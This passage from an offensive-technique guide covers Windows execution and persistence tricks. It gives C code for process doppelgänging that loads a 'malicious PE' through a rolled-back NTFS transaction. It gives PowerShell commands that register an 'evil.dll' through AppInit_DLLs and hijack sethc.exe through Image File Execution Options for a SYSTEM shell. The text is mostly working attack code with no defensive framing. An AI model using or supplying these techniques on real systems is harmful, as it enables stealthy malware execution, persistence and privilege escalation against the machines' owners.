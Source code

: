 
---

## 9. Advanced Execution Techniques

### 9.1 Process Doppelgänging

```c
// Abuse NTFS transactions for execution
HANDLE hTransaction = CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

HANDLE hFile = CreateFileTransacted("C:\\Windows\\Temp\\legit.exe",
                                    GENERIC_WRITE | GENERIC_READ,
                                    0, NULL, CREATE_ALWAYS,
                                    FILE_ATTRIBUTE_NORMAL, NULL,
                                    hTransaction, NULL, NULL);

// Write malicious PE
WriteFile(hFile, malicious_pe, pe_size, &bytesWritten, NULL);

// Create section
HANDLE hSection;
NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL,
                PAGE_READONLY, SEC_IMAGE, hFile);

// Rollback (file disappears)
RollbackTransaction(hTransaction);

// Create process from section
HANDLE hProcess;
NtCreateProcessEx(&hProcess, PROCESS_ALL_ACCESS, NULL,
                  GetCurrentProcess(), 0, hSection, NULL, NULL, 0);
```

### 9.2 AppInit DLLs

```powershell
# Register malicious DLL (requires admin)
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "AppInit_DLLs" -Value "C:\Windows\Temp\evil.dll"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "LoadAppInit_DLLs" -Value 1
```

### 9.3 Image File Execution Options Injection

```powershell
# Hijack debugger
New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Name "Debugger" -Value "cmd.exe"

# Now pressing Shift 5 times launches cmd.exe as SYSTEM
```

---